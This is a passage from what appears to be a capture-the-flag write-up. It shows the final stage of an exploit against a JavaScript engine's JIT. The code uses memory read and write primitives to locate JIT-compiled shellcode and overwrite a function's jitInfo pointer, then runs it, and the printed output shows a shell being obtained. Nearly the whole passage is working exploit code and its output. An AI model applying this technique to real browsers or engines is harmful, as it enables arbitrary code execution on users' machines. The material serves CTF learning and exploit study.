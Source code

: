 ```
    shellcode();
}
 
// workaround to make the exploit work in release and debug version
shellcode_addr = addrof(shellcode);   
while(shellcode_addr == addrof(shellcode)){
    // just block until we get the updated addr 
}
shellcode_addr = addrof(shellcode);   
console.log("[>] Function @ " + shellcode_addr.toString(16));
 
// Get the jetInfo pointer in the JSFunction object (JSFunction.u.native.extra.jitInfo_)
jitinfo = read64(shellcode_addr + 0x28n);
console.log("[>] Jitinfo @ " + jitinfo.toString(16));
 
// Dereference pointer to get RX Region
rx_region = read64(jitinfo & 0xffffffffffffn);
console.log("[>] Jit RX @ " + rx_region.toString(16));
 
 
// Iterate to find magic value (since the shellcode is not at the start of the rx_region)
it = rx_region; // Start from the RX region
found = false
for(i = 0; i < 0x800; i++) {
    data = read64(it);
    if(data == 0x41414141n) {
    it = it + 8n;  // 8 byte offset to account for magic value
    found = true;
    break;
    }
    it = it + 8n;
}
if(!found) {
    console.log("[-] Failed to find Jitted shellcode in memory");
}  
 
shellcode_location = it;
console.log("[>] Shellcode @ " + shellcode_location.toString(16));
 
// Overwrite jitInfo pointer and execute modified function
write64(jitinfo, shellcode_location);
shellcode();
```

This yields a shell:

```
[>] Function @ 279b70d00860
[>] Jitinfo @ 159537965150
[>] Jit RX @ 2ed9ab64b990
[>] Shellcode @ 2ed9ab64bd30
uid=1000(xct) gid=1000(xct) groups=1000(xct)
xct@kali:/home/xct$
```

For the remote version, just replace the shellcode with something that will grab the flag – I’ll leave that as an exercise for the reader 😉